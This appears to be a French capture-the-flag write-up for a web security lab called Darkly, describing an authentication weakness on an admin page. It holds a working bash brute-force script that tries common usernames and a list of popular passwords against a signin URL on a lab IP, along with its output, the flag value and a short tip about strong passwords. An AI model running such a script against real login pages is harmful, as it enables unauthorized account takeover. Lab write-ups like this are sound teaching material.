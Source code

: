 # Authentication Vulnerability 

Sur la page http://ip/admin/, il est possible via un script de brutforce avec les usernames et mdp les plus rependu de trouver plusieurs comptes :


**Script de brutforce** :
```
#!/bin/bash
usernames=("root" "admin"  "adm" "user" "administrator" "admins")
passwords=("123456" "password" "12345678" "qwerty" "123456789" "12345" "1234" "111111" "1234567" "dragon" "123123" "baseball" "abc123" "football" "monkey" "letmein" "shadow" "master" "666666" "qwertyuiop" "123321" "mustang" "1234567890" "michael" "654321" "superman" "1qaz2wsx" "7777777")


for username in "${usernames[@]}";
do
    for password in "${passwords[@]}";
    do
        try=`curl -v http://192.168.56.105/index.php\?page\=signin\&username\=$username\&password\=$password\&Login\=Login\# 2>&1 | grep WrongAnswer | wc -l`
        if [ "$try" != "1" ];
        then
            echo $username:$password
        fi
    done
done
```

**Output:**

```
➜  Darkly git:(master) ✗ ./bruteforce.sh
root:shadow
admin:shadow
adm:shadow
user:shadow
administrator:shadow
admins:shadow
```

>The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2

- Se protéger du bruteforce, choisir un mot de passe robuste, minimum 8 à 12 caractère mélangeant les majuscules, les minuscules, des chiffres et des caractères spéciaux.
